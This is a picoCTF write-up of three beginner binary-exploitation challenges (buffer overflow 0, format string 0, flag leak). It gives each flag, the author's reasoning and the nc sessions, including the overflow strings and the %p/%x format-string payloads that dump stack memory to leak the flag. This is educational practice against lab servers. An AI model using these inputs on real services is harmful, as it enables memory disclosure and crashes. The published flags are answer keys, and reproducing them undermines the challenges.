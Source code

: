 ## 1. buffer overflow 0

### **Flag-**    
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

### **Thought Process-**      
> I just read the c program and the challenge itself gave the clue that I had to buffer overflow in order to get the flag and I got it. I had to atleast input 20 bytes
  of string to get the flag because though the buffer `buf2` is of 16 bytes but the return address is of 4 bytes hence I required atleast 20 bytes of data to make the
  program to jump to `sigsegv_handler` to get the flag. 

**Working-**     
```bash
 nc saturn.picoctf.net 51209
Input: aefasjedfbnwpiusfgnhbasuiogbfiawsuefgbwyuoatefybawsiuefgawuifgebaweuoeyfbawsuifgvbaseufbnawuioyfgbwaOUEBFTGVAWIOUFTGBAWIUEFBAWIFEBWAISEFBWouiebfawoupeftgbawI(Ueghft9wpUHEF8AW7EGFBAWIEUEFGWaurfhbaw97ufhbawiuyerfhbaweiuughfw
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## 2. format string 0

### **Flag-**    
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

### **Thought Process-**     
> It was sort of similar to the 1st challenge, after going through the program I understood here also I had to buffer overflow.

**Working-**    
```bash
 nc mimas.picoctf.net 61152
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Pe20021560_Portobellosdijhfbvsuydfobsdiyfbgsiyuefbsdyfbsuydfbsidjfbsduiyfbsidfvbsdfbn
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## 3. flag leak

### **Flag-**
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

### **Thought Process-**
> Here the vulnerability was because of `printf` statement because while printing it responds to certain format specifiers such as %p(to read addresses on the stack), 
  %s(To read the contents of strings stored at certain memory locations), %x(To print data in hexadecimal format). I tried combinations of all these specifiers to get the flag directly but it was getting difficult 
  to find out the flag address so directly used `%x` to get the hexadecmal values and find out the data by converting the hex data to ASCII. After several tries and observations I was able to find out the addrss 
  and the flag.

**Working-**     
```bash
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p %p %p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p
Here's a story -
0xff9adf80
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xff8b6be00xff8b6c000x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x68521800(nil)0xed6649900x804c0000x8049410(nil)0x804c0000xff8b6cc80x80494180x20xff8b6d740xff8b6d80(nil)0xff8b6ce0(nil)(nil)0xed45aed5
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xfff5e9600xfff5e9800x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x277025270x252770250x702527700x277025270x252770250x702527700x7025270x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x39666900(nil)0xf45d49900x804c000'0x8049410'(nil)'0x804c000'0xfff5ea48'0x8049418'0x2'0xfff5eaf4'0xfff5eb00'(nil)
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xffc315d00xffc315f00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x252770250x702527700x277025270x252770250x702527700x277025270x252770250x702527700x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x702527'0x6f636970'0x7b465443'0x6b34334c'0x5f676e31'0x67346c46'0x6666305f'0x3474535f'0x315f6b63'0x62326131'0x7d613235'0xfbad2000'0xc8709f00'(nil)'0xe801b990'0x804c000
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x
Here's a story -
ff851200ff8512208049346782578257825782578257825782578257825782578257825782578257825782578257825782578253f78253f253f782578253f783f78253f253f782578253f783f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?78253f?6f636970?7b465443?6b34334c?5f676e31?67346c46?6666305f?3474535f?315f6b63?62326131?7d613235?fbad2000?29d9a000?0?e99d4990
```

**Tool-**      
![Rapid_Tables]

Here I figured out that I had to rearrange the flag as at the end of the flag `{` this should be there but I was shifted this helped to figure out the shifting.
